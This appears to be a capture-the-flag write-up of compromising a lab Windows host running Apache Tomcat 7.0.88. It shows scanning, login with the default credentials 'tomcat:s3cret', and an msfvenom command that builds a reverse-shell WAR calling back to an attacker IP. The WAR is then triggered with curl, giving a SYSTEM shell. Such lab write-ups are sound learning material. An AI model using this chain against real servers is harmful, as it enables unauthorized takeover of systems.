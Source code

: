 1,Recon
port scan
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```
By search this version of `Apache Tomcat`
```
searchsploit Apache Tomcat 7.0.88
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47  | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47  | windows/webapps/42953.txt
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I think it would be a path to check that.
But unluckily, it would not our target.
By checking the error page, we can get the default credit
![](images/Pasted%20image%2020241216011559.png)

By using the default credit `tomcat:s3cret`
![](images/Pasted%20image%2020241216011215.png)
We can get the version of system `Windows Server 2012 R2`, so I think we can use some kernel vulners here, but it would not be our first choice.

![](images/Pasted%20image%2020241216012033.png)
In this page, I want to go to the `/host-manager` page, but the default user access denied.
But in  the bottom of this page, we can deploy a war file here.
![](images/Pasted%20image%2020241216012258.png)

I’ll use `msfvenon` to create a windows reverse shell that can be caught with nc:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=443 -f war > rev_shell.war`

I’ll also need to know the name of the jsp page to activate it with curl. I’ll use jar to list the contents of the war.
```
jar -ft rev_shell.war     
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
qskeomvjakwawpb.jsp
```

Then we just open nc and handle it.
`curl http://10.10.10.95:8080/rev_shell/qskeomvjakwawpb.jsp`

When we get the shell
```
whoami
nt authority\system
```
We found it was SYSYEM user.
